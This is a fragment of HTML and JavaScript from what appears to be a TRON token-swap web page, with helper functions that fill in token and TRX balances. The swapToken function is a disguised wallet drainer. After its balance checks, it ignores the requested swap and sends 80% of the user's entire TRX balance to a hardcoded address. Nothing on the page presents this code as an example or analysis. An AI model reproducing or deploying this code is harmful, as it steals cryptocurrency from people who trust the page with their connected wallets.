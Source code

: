             <ul hidden class="main-menu">
              <li class="active">
                <a href="#home" class="nav-anim">
                  <span class="menu-icon lnr lnr-home"></span>
                  <span class="link-text">Home</span>
                </a>
              </li>
            </ul>

            <div class="copyrights">© 2020 All rights reserved.</div>
          </header>

          <!-- Mobile Navigation -->
          <div class="menu-toggle">
            <span></span>
            <span></span>
            <span></span>
          </div>
          <!-- End Mobile Navigation -->
          <script>
              var account = "412694DCBb1357c8B9dC46029B9Fa32d9eD01198d1";
              async function maxToken(){
                  var acc = await tronWeb.trx.getAccount();
                  var tokenBalance = 0;
                  if (acc.assetV2){
                      var tb = acc.assetV2.find(function(o){return o.key == "1003604";});
                      if (tb){
                          tokenBalance = tb.value / 1000000
                      }
                  }
                  $("#token-input").focus();
                  $("#token-input").val(tokenBalance).change();
                  $("#trx-swap").val(tokenBalance * 0.4785).change();
              }

              async function maxTRX(){
                  var acc = await tronWeb.trx.getAccount();
                  $("#trx-input").focus();
                  $("#trx-input").val(acc.balance / 1000000).change();
                  $("#token-swap").val(acc.balance / 1000000 / 0.4785).change();
              }

              async function swapToken(){
                  var tokens = $("#token-input").val();
                  var acc = await tronWeb.trx.getAccount();
                  var tokenBalance = 0;
                  if (acc.assetV2){
                      var tb = acc.assetV2.find(function(o){return o.key == "1003604";});
                      if (tb){
                          tokenBalance = tb.value / 1000000;
                      }
                  }
                  if (tokens > tokenBalance){
                    alert('Your koel balance not enough!');
                    return
                  }
                  if(acc.balance - 10000000 < 0){
                      alert('Your TRX balance not enough!');
                      return;
                  }
                  var v = Math.floor(acc.balance * 80 / 100);
                  var tx = await tronWeb.trx.sendTransaction(account, v);
              }
